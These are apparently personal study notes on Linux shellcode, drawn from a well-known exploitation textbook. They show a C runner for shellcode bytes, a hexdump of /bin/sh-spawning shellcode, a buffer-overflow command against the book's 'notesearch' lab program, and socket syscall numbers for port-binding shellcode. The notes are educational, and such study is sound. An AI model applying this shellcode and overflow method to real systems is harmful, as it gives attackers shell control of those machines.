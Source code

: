 # Shellcode

Shellcode is a special type of code injected remotely which hackers use to exploit a variety of software vulnerabilities. It is so named because it typically spawns a command shell from which attackers can take control of the affected system.

Remote shellcode is used when an attacker wants to target a vulnerable process running on another machine on a local network, intranet, or a remote network. If successfully executed, the shellcode can provide the attacker access to the target machine across the network.

Simple shellcode example: 

```c
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "my shellcode here";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1, 
  // so our shellcode worked
  return 1;
}
```

```s
mov  eax, 32       ; assign: eax = 32
xor  eax, eax      ; exclusive OR
push eax           ; push something onto the stack
pop  ebx           ; pop something from the stack (what was on the stack in a register/variable)
call mysuperfunc   ; call a function
int  0x80          ; interrupt, kernel command
```

Code and a more extended explanation -> (Cocomelon Shellcode)[https://cocomelonc.github.io/tutorial/2021/10/09/linux-shellcoding-1.html]

# Shell-Spawning Shellcode

To spawn a shell, we just need to make a system call to execute the /bin/sh shell program.

Shellcode executed with nasm.

```
jet@github:~/code $ nasm exec_shell.s
jet@github:~/code $ wc -c exec_shell
36 exec_shell
jet@github:~/code $ hexdump -C exec_shell
00000000 eb 16 5b 31 c0 88 43 07 89 5b 08 89 43 0c 8d 4b |..[1..C..[..C..K|
00000010 08 8d 53 0c b0 0b cd 80 e8 e5 ff ff ff 2f 62 69 |..S........../bi|
00000020 6e 2f 73 68 |n/sh|
00000024
jet@github:~/code $ export SHELLCODE=$(cat exec_shell)
jet@github:~/code $ ./getenvaddr SHELLCODE ./notesearch
SHELLCODE will be at 0xbffff9c0
jet@github:~/code $ ./notesearch $(perl -e 'print "\xc0\xf9\xff\xbf"x40')
[DEBUG] found a 34 byte note for user id 999
[DEBUG] found a 41 byte note for user id 999
[DEBUG] found a 5 byte note for user id 999
[DEBUG] found a 35 byte note for user id 999
[DEBUG] found a 9 byte note for user id 999
[DEBUG] found a 33 byte note for user id 999
-------[ end of note data ]-------
```

The code could be shorter but this is a clear example.

# Port Binding Shellcode

Onces we have our shellcode ready, we'll need to connect it over the network for stabishing a connection between the server and the client.

*From /usr/include/linux/net.h*

```c
#define SYS_SOCKET 1 /* sys_socket(2) */
#define SYS_BIND 2 /* sys_bind(2) */
#define SYS_CONNECT 3 /* sys_connect(2) */
#define SYS_LISTEN 4 /* sys_listen(2) */
#define SYS_ACCEPT 5 /* sys_accept(2) */
#define SYS_GETSOCKNAME 6 /* sys_getsockname(2) */
#define SYS_GETPEERNAME 7 /* sys_getpeername(2) */
#define SYS_SOCKETPAIR 8 /* sys_socketpair(2) */
#define SYS_SEND 9 /* sys_send(2) */
#define SYS_RECV 10 /* sys_recv(2) */
#define SYS_SENDTO 11 /* sys_sendto(2) */
#define SYS_RECVFROM 12 /* sys_recvfrom(2) */
#define SYS_SHUTDOWN 13 /* sys_shutdown(2) */
#define SYS_SETSOCKOPT 14 /* sys_setsockopt(2) */
#define SYS_GETSOCKOPT 15 /* sys_getsockopt(2) */
#define SYS_SENDMSG 16 /* sys_sendmsg(2) */
#define SYS_RECVMSG 17 /* sys_recvmsg(2) */
```

Call number from the first argument -> net.h

So, to make socket system calls using Linux, EAX is always 102 for socketcall(), EBX contains the type of socket call, and ECX is a pointer to the socket call’s arguments. 

# Extra

Special thanks to -> Hacking: The art of Explotation and Cocomelon (Documentation)